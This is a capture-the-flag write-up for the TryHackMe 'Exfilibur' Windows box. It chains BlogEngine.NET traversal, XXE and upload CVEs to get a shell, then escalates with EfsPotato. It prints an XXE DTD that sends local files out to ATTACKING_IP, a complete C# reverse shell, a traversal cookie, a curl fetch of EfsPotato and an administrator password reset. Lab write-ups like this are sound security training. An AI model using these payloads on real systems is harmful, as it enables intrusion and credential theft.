This box is rated hard difficulty on THM. It involves us exploiting a web application built with BlogEngine to get a reverse shell through three CVEs. Once on the system, we discover that our account has access to SeImpersonatePrivileges, allowing us to utilize 'Potatoes' for a local privilege escalation to Adminsitrator whilst bypassing firewalls the entire time.

You've been asked to exploit all the vulnerabilities present.

## Scanning & Enumeration
An Nmap scan is first in order to find all running services on this host; Repeating the same process for UDP yields no results. 

```
$ sudo nmap -p80,3389,7680 -Pn -sCV 10.64.133.110 -oN fullscan-tcp
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-15 00:12 CST
Nmap scan report for 10.64.133.110
Host is up (0.043s latency).

PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: 403 - Forbidden: Access is denied.
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2026-02-15T06:13:25+00:00; -1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: EXFILIBUR
|   NetBIOS_Domain_Name: EXFILIBUR
|   NetBIOS_Computer_Name: EXFILIBUR
|   DNS_Domain_Name: EXFILIBUR
|   DNS_Computer_Name: EXFILIBUR
|   Product_Version: 10.0.17763
|_  System_Time: 2026-02-15T06:13:20+00:00
| ssl-cert: Subject: commonName=EXFILIBUR
| Not valid before: 2026-02-14T06:07:53
|_Not valid after:  2026-08-16T06:07:53
7680/tcp open  pando-pub?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -1s, deviation: 0s, median: -1s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.71 seconds
```

It looks like we're dealing with a Windows machine and judging from default scripts, the domain name is also Exfilibur. There are just three ports open:
- A web server on port 80 (returns 403 Forbidden)
- RDP on port 3389
- Windows Update Delivery Optimization on port 7680 (that's the default and makes sense in this case, however could be incorrect)

Since we can't do anything over RDP without credentials and the mysterious service isn't responding to Netcat, I launch Gobuster to find subdirectories/subdomains for the web server. This provides me with a page at /blog which hosts stories about Cyber-Medieval mashup stories.



Taking a look around the site showed both a contact form as well as a comment feature that allowed for stored text to be sent. I test these fields with  cross-site scripting payloads in hopes to capture a cookie but neither work to send me anything, meaning no administrator is monitoring the site as of now.



Checking out how the posts are loaded shows no obvious IDOR vulnerabilities or locations prone to SQL injection. It seems like most if not all of the user-supplied fields are sanitized or not functioning so we'll have to enumerate more to expand the attack surface. The last tab is an admin login panel which shows that the site's built with `BlogEngine.NET`, again it doesn't seem to be vulnerable to injection or default credentials.



A peak at the source code discloses its version and I utilize that to find any known vulnerabilities pertaining to it.



Searchsploit returns a few promising results.

```
$ searchsploit BlogEngine.NET 3.3.7  
----------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                 |  Path
----------------------------------------------------------------------------------------------- ---------------------------------
BlogEngine.NET 3.3.6/3.3.7 - 'dirPath' Directory Traversal / Remote Code Execution             | aspx/webapps/47010.py
BlogEngine.NET 3.3.6/3.3.7 - 'path' Directory Traversal                                        | aspx/webapps/47035.py
BlogEngine.NET 3.3.6/3.3.7 - 'theme Cookie' Directory Traversal / Remote Code Execution        | aspx/webapps/47011.py
BlogEngine.NET 3.3.6/3.3.7 - XML External Entity Injection                                     | aspx/webapps/47014.py
----------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

## Directory Traversal
Reading through the contents of these exploits shows a few things in common, they all allow for directory traversal via invalidated parameters in trusted APIs. I came across [CVE-2019–10717](https://nvd.nist.gov/vuln/detail/CVE-2019-10717) which explains that malicious file paths given to the File Manager API let's us traverse directories on the server. We'll also have to URL the forward slashes for the engine to interpret it correctly.

```
/blog/api/filemanager?path=%2F..%2F..%2F
```



I use this to enumerate the file system and find a ton of XML documents under `/App_Data`, a few stood out to me. The roles and users file should give us a pretty good information about accounts on the system.



Problem is, we can't actually read these files and don't yet have a way of obtaining them. That's where the next known vulnerability comes into play, [CVE-2019–11392](https://nvd.nist.gov/vuln/detail/CVE-2019-11392) allows for XML External Entities to be injected at `/syndication.axd` by means of an apml file.

## Out-Of-Band XXE
I find that this [Security Metrtics article](https://www.securitymetrics.com/blog/blogenginenet-xml-external-entity-attacks) contains a proof of concept that applies on our application, so I give it a shot.

```
/blog/syndication.axd?apml=http://ATTACKING_MACHINE/oob.xml
```



Sick, we can confirm that this parameter works to make outbound requests to our machine in an attempt to grab XML files. Next, let's host an XXE payload that will read those files that we enumerated earlier. For this we'll need to host an XML doc that points toward a malicious `.dtd` file also on our machine.

**oob.xml:**

```
<?xml version="1.0"?>
<!DOCTYPE foo SYSTEM "http://ATTACKING_IP/exfil.dtd">
<foo>&e1;</foo>
```

**exfil.dtd:**

```
<!ENTITY % p1 SYSTEM "file:///C:/WINDOWS/win.ini">
<!ENTITY % p2 "<!ENTITY e1 SYSTEM 'http://ATTACKING_IP/?exfil=%p1;'>">
%p2;
```

Trying that throws an error that the server is unable to connect to the server. The fact that it worked to grab the XML file in the first place meant this was most likely a firewall rule blocking traffic over port 80. The box's description also denotes that we should keep a lookout for "brickwalls".

I figure that it's probably not sniping all TCP traffic, so I try other common ports and find that 445 (SMB) works just fine.



Now let's change that `.dtd` file to point towards `users.xml` under the `/App_Data` folder. If needed, you can backtrack to our previous step to enumerate the full path, however files on web servers (port 80) are typically stored in `inetpub/wwwroot/[APPLICATION_NAME]`.

```
<!ENTITY % p1 SYSTEM "file:///C:/inetpub/wwwroot/blog/App_Data/users.xml">
<!ENTITY % p2 "<!ENTITY e1 SYSTEM 'http://ATTACKING_IP:445/?exfil=%p1;'>">
%p2;
```



One callback later rewards us with a URL-encoded string containing user credentials for the website. I send it over to CyberChef to make sense of it and grab the password for Administrator.



Note that whenever decoding the string, that `+` sign character will get treated as a space so uncheck that box if you're using CyberChef. From there, the passwords are stored as hashes so we must decode them further. The correct recipe is `From Base64` -> `To Hex` **(no delimiter)** to get the `SHA256` hashes which we can then send to Hashcat or JohnTheRipper to get their plaintext equivalents.



Only guest cracks but now we can login at the website to start enumeration internally. I thought we were going to have to exploit a cookie or take advantage of some kind of LFI vulnerability to get admin privileges, but their plaintext password is literally sitting in a draft post meant to be a secret 'key'.


I use that to switch over to Admin and find a few new options to play around with to manage the website and its themes. Instead of wasting time there, I thought back to right after version disclosure; I found [CVE-2019–10719](https://nvd.nist.gov/vuln/detail/CVE-2019-10719), which is an RCE vulnerability made possible via the upload API. At the time we needed credentials, but now we have access, so let's try exploiting that to grant us a reverse shell as the server's running UID.

## RCE via Directory Traversal in File Manager
I refer to another [Security Metrics article](https://www.securitymetrics.com/blog/blogenginenet-directory-traversal-remote-code-execution-cve-2019-10719-cve-2019-10720) for this step. It explains that by using the `dirPath` parameter in the `/api/upload` endpoint, we're able to upload malicious files to the web server wherever we please. I will put it inside of the `/Custom/Themes` folder as we have the ability to set each file as the active one.

I begin by creating a malicious `PostView.ascx` file containing a reverse shell pointed at my attacking machine. The firewall also applies here so make sure it's being transmitted over a non-filtered port.

```
<%@ Control Language="C#" AutoEventWireup="true" EnableViewState="false" Inherits="BlogEngine.Core.Web.Controls.PostViewBase" %>
<%@ Import Namespace="BlogEngine.Core" %>

<script runat="server">
  static System.IO.StreamWriter streamWriter;

    protected override void OnLoad(EventArgs e) {
        base.OnLoad(e);

  using(System.Net.Sockets.TcpClient client = new System.Net.Sockets.TcpClient("ATTACKING_IP", 445)) {
    using(System.IO.Stream stream = client.GetStream()) {
      using(System.IO.StreamReader rdr = new System.IO.StreamReader(stream)) {
        streamWriter = new System.IO.StreamWriter(stream);

        StringBuilder strInput = new StringBuilder();

        System.Diagnostics.Process p = new System.Diagnostics.Process();
        p.StartInfo.FileName = "cmd.exe";
        p.StartInfo.CreateNoWindow = true;
        p.StartInfo.UseShellExecute = false;
        p.StartInfo.RedirectStandardOutput = true;
        p.StartInfo.RedirectStandardInput = true;
        p.StartInfo.RedirectStandardError = true;
        p.OutputDataReceived += new System.Diagnostics.DataReceivedEventHandler(CmdOutputDataHandler);
        p.Start();
        p.BeginOutputReadLine();

        while(true) {
          strInput.Append(rdr.ReadLine());
          p.StandardInput.WriteLine(strInput);
          strInput.Remove(0, strInput.Length);
        }
      }
    }
      }
    }

    private static void CmdOutputDataHandler(object sendingProcess, System.Diagnostics.DataReceivedEventArgs outLine) {
     StringBuilder strOutput = new StringBuilder();

         if (!String.IsNullOrEmpty(outLine.Data)) {
           try {
                  strOutput.Append(outLine.Data);
                      streamWriter.WriteLine(strOutput);
                      streamWriter.Flush();
                } catch (Exception err) { }
        }
    }

</script>
<asp:PlaceHolder ID="phContent" runat="server" EnableViewState="false"></asp:PlaceHolder>
```

Next, we capture a request to the upload API by using the File manager option within the post editing feature.



I tried using this traversal to upload our reverse shell to the themes directory but I guess the site wouldn't allow for it, or we didn't have write access (honestly not too sure). Either way we could really just upload it to the default folder at `~/App_Data/files` and use yet another vulnerability to proc it. [CVE-2019–10720](https://nvd.nist.gov/vuln/detail/CVE-2019-10720) allows for Directory Traversal and Remote Code Execution via the theme cookie to the File Manager, so it's kind of similar to what I tried to do, except we use the cookie to proc it instead of the Themes tab. 

[This article](https://www.securitymetrics.com/blog/blogenginenet-directory-traversal-remote-code-execution-cve-2019-10719-cve-2019-10720) contains the necessary steps to replicate it in a controlled environment.

```
curl -b "theme=../../App_Data/files" http://MACHINE_IP/blog
```



Note: This took a bit of troubleshooting so if it doesn't work for you, try a few different directories and tools to proc the shell.

## Privilege Escalation
Now that we have a shell on the box as Merlin, let's figure out what to use in our quest to escalate privileges to administrator. It seems that he has access to the `SeImpersonatePrivilege`, so we may be able to utilize a 'Potato' exploit for our goal.



There is just one other user besides our current account. I'll keep my eye out for any files pertaining to their role/user.



On a whim, I tried reusing the credentials found in the draft post on the web application for this new user and actually got a successful login over RDP.



At this point we can grab the user flag under his Desktop directory. This account doesn't have any crazy privileges so I just swap back to our reverse shell for admin privesc. As we have access to SeImpersonatePrivileges, there is a myriad of ways to grab a shell as SYSTEM. 

Referring to [Hacktricks](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens.html#seimpersonateprivilege) shows that the [EfsPotato](https://github.com/zcgonvh/EfsPotato) exploit will act as our red carpet to admin. I did try [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) and [SweetPotato](https://github.com/CCob/SweetPotato) as well, but both get flagged and deleted by Windows Defender. 

```
curl http://ATTACKER_IP/EfsPotato.cs -o EfsPotato.cs

.\EfsPotato "cmd.exe /C net user administrator Password1234!@"
```

After uploading the file to a writeable directory and compiling it as instructed, I use the tool to change the administrator's password using `cmd.exe`.



Finally we can use those creds to authenticate over RDP and grab the final flag under their desktop folder.



That's all y'all, this box was a pretty fun one that really revolved around exploiting the vulnerable BlogEngine application. I liked the theme and how we had to bypass the firewalls in place to grab shells. I hope this was helpful to anyone following along or stuck and happy hacking!
